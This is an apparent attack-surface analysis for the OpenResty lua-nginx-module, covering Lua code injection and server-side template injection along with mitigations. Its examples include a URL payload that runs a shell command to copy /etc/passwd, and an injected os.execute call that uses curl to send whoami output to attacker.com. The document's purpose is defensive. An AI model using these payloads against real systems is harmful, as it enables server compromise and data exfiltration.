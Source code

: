 # Attack Surface Analysis for openresty/lua-nginx-module

## Attack Surface: [Lua Code Injection](./attack_surfaces/lua_code_injection.md)

*   **Description:** Attackers inject malicious Lua code into the application, which is then executed by the Lua interpreter within the Nginx context.
*   **Lua-Nginx Module Contribution:** `lua-nginx-module` enables the execution of Lua code within Nginx, making it the direct execution environment for injected Lua code if user input is improperly handled in Lua scripts.
*   **Example:** A Lua script uses `ngx.req.get_uri_args()` to retrieve URL parameters and then uses `loadstring()` to execute code based on the parameter value. An attacker crafts a URL like `/?code=os.execute('bash -c \"cat /etc/passwd > /tmp/passwd.txt\"')` to execute shell commands on the server.
*   **Impact:** Full server compromise, arbitrary code execution within the Nginx worker process, data exfiltration, and denial of service.
*   **Risk Severity:** **Critical**
*   **Mitigation Strategies:**
    *   **Strict Input Sanitization:**  Thoroughly sanitize and validate all user inputs before using them in Lua code. Treat all external data as untrusted.
    *   **Avoid Dynamic Code Execution:**  Completely avoid using dynamic code execution functions like `loadstring()`, `load()`, or `module.load()` with user-controlled input. If absolutely necessary, use extremely restrictive sandboxing and validation.
    *   **Principle of Least Privilege:** Run Nginx worker processes with the lowest possible privileges to limit the impact of code execution.
    *   **Web Application Firewall (WAF):** Deploy a WAF capable of detecting and blocking Lua code injection attempts.
    *   **Regular Security Audits and Code Reviews:** Conduct frequent security audits and code reviews specifically focusing on Lua scripts and input handling.

## Attack Surface: [Server-Side Template Injection (SSTI) via Lua](./attack_surfaces/server-side_template_injection__ssti__via_lua.md)

*   **Description:** Attackers inject malicious Lua code into template structures processed by Lua scripts, leading to server-side code execution during template rendering.
*   **Lua-Nginx Module Contribution:** If Lua is used for templating within Nginx (either with custom logic or Lua templating libraries), `lua-nginx-module` provides the execution context for SSTI vulnerabilities when user input is embedded in templates without proper escaping.
*   **Example:** A Lua script uses string formatting to generate dynamic web pages, directly embedding user-provided data into format strings used for HTML generation. An attacker injects payload like `${{os.execute('curl attacker.com/?data=$(whoami)')}}` into user input, which gets executed on the server when the template is rendered.
*   **Impact:** Server-side code execution, information disclosure, potential server compromise, and unauthorized actions.
*   **Risk Severity:** **High**
*   **Mitigation Strategies:**
    *   **Use Secure Templating Libraries:** Employ well-established and secure Lua templating libraries that offer automatic escaping and protection against SSTI.
    *   **Context-Aware Output Encoding:**  Properly encode user input based on the output context (HTML, JSON, XML, etc.) to prevent interpretation as code. Use escaping functions provided by secure templating libraries or implement manual escaping correctly.
    *   **Input Validation:** Validate user input to ensure it conforms to expected formats and does not contain potentially malicious characters or template syntax.
    *   **Content Security Policy (CSP):** Implement CSP headers to further mitigate the impact of successful SSTI by restricting the sources from which the browser can load resources, reducing the attacker's ability to exfiltrate data or execute client-side scripts.
